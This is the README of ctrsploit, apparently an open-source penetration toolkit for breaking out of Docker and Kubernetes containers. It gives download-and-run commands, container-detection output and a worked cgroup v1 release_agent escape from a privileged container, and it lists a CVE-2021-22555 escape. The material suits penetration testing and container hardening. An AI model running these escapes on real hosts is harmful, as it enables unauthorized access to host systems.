 # ctrsploit: A penetration toolkit for container environment

[中文文档](./README-ZH.md)

## Pre-Built Release

https://github.com/ssst0n3/ctrsploit/releases

## Usage

### Quick-Start

```
wget -O ctrsploit https://github.com/ssst0n3/ctrsploit/releases/download/v0.1/ctrsploit_linux_amd64 && chmod +x ctrsploit
./ctrsploit --help
NAME:
   ctrsploit - A penetration toolkit for container environment

ctrsploit is a command line ... //TODO


USAGE:
   ctrsploit [global options] command [command options] [arguments...]

COMMANDS:
   auto, a     auto gathering information, and detect vuls, and exploit // TODO
   exploit, e  run a exploit
   env, e      gather information // TODO
   help, h     Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --lang value  language for the greeting (default: "english")
   --help, -h    show help (default: false)
```

### gather information

usage

```
root@ctr:/# ./ctrsploit env
NAME:
   ctrsploit env - gather information

USAGE:
   ctrsploit env command [command options] [arguments...]

COMMANDS:
   where, w        detect whether you are in the container, and which type of the container
   graphdriver, g  detect graphdriver type and extend information
   cgroups, c      gather cgroup information
   help, h         Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)
```

where

```
root@ctr:/# ./ctrsploit  env  w
INFO[0000] ===========Docker=========
.dockerenv exists: ✔
rootfs contains 'docker': ✔
cgroup contains 'docker': ✘
the mount source of /etc/hosts contains 'docker': ✔
hostname match regex ^[0-9a-f]{12}$: ✔
=> is in docker: ✔ 
INFO[0000] ===========k8s=========
/var/run/secrets/kubernetes.io exists: ✘
hostname match k8s pattern: ✘
the mount source of /etc/hosts contains 'pods': ✘
cgroup contains 'kubepods': ✘
=> is in k8s: ✘ 
```

### run a exploit

```
root@2aa13a052102:/# ./ctrsploit e
NAME:
   ctrsploit exploit - run a exploit

USAGE:
   ctrsploit exploit command [command options] [arguments...]

COMMANDS:
   cgroupv1-release_agent, ra                       escape tech by using the notify_on_release of cgroup v1
   cgroupv1-release_agent-unknown_rootfs, ra3       escape tech by using the notify_on_release of cgroup v1 without known rootfs
   help, h                                          Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)

```

eg. : escape by 'cgroupv1-release_agent' tech.

```
root@host # docker run -ti --rm --security-opt="apparmor=unconfined" --cap-add="sys_admin" busybox
root@ctr # wget -O ctrsploit https://github.com/ssst0n3/ctrsploit/releases/download/v0.1/ctrsploit_linux_amd64 && chmod +x ctrsploit
root@ctr # ./ctrsploit e ra -c "cat /etc/hostname"
```

## Details

### env

| command | alias | description |
| --- | --- | --- |
| [where](./env/where/README.md) | w | detect whether you are in the container, and which type of the container |
| [graphdriver](./env/graphdriver/README.md) | g | detect graphdriver type and extend information |
| [cgroups](./env/cgroups/README.md) | c | gather cgroup information |
| [capability](./env/capability/README.md) | cap | show the capability of pid 1 and current process |
| seccomp | s | show the seccomp info |
| apparmor | a | show the apparmor info |

### exploit

| exploit | alias | description |
| --- | --- | --- |
| [cgroupv1-release_agent](./exploit/cgroupv1-release_agent/README.md) | ra | escape tech by using the notify_on_release of cgroup v1 |
| [cgroupv1-release_agent-unknown_rootfs](./exploit/cgroupv1-release_agent-unknown_rootfs/README.md) | ra3 | escape tech by using the notify_on_release of cgroup v1 without known rootfs |
| [cve-2021-22555](./exploit/CVE-2021-22555/README.md) | 22555 | escape tech by using the CVE-2021-22555 |

## Todo List

see [FEATURES.md](./FEATURES.md)
